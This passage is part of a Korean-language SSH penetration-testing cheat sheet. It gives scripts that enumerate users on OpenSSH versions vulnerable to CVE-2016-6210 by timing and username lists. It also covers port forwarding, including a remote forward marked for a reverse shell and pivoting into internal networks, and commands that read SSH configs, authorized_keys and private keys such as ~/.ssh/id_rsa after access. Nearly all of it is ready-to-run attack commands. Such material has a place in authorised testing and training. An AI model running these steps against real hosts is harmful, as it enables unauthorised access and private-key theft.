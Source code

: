 ### 🔍 사용자 열거 (OpenSSH < 7.7)

```bash
# CVE-2016-6210 사용자 열거
python3 ssh_user_enum.py {IP} -U /usr/share/wordlists/metasploit/unix_users.txt

# 수동 사용자 열거 (타이밍 기반)
#!/bin/bash
for user in root admin user test guest oracle mysql postgres apache; do
    echo "Testing user: $user"
    time ssh -o PreferredAuthentications=password -o PubkeyAuthentication=no $user@{IP} 2>&1 | head -1
done

# SSH 사용자 열거 스크립트 (세밀한 제어)
#!/bin/bash
users="root admin user test guest mysql postgres oracle apache www-data nobody daemon bin sys sync games man lp mail news uucp proxy www-data backup list irc gnats"
for user in $users; do
    timeout 5 ssh -o ConnectTimeout=3 -o PreferredAuthentications=none $user@{IP} 2>&1 | grep -E "(Permission denied|password:)"
done
```

### 🔧 SSH 터널링 및 포트 포워딩

```bash
# 로컬 포트 포워딩 (SSH 접근 성공 후)
ssh -L 8080:127.0.0.1:80 user@{IP}
ssh -L 3306:127.0.0.1:3306 user@{IP}  # MySQL 터널링
ssh -L 5432:127.0.0.1:5432 user@{IP}  # PostgreSQL 터널링

# 원격 포트 포워딩
ssh -R 4444:127.0.0.1:4444 user@{IP}  # 리버스 쉘용

# 동적 포트 포워딩 (SOCKS 프록시)
ssh -D 1080 user@{IP}

# SSH 터널을 통한 내부 네트워크 스캔
ssh user@{IP} -L 8080:192.168.1.1:80
# 그 후 localhost:8080으로 내부 서버 접근

# X11 포워딩 (GUI 애플리케이션)
ssh -X user@{IP}
ssh -Y user@{IP}  # 신뢰된 X11 포워딩
```

### 🗂️ SSH 설정 파일 악용

```bash
# SSH 접근 성공 후 설정 확인
cat /etc/ssh/sshd_config
cat ~/.ssh/config
cat ~/.ssh/authorized_keys
cat ~/.ssh/known_hosts

# 중요 설정 확인사항
grep -i "PermitRootLogin" /etc/ssh/sshd_config
grep -i "PasswordAuthentication" /etc/ssh/sshd_config
grep -i "PubkeyAuthentication" /etc/ssh/sshd_config
grep -i "PermitEmptyPasswords" /etc/ssh/sshd_config

# SSH 키 파일들 확인
ls -la ~/.ssh/
cat ~/.ssh/id_rsa
```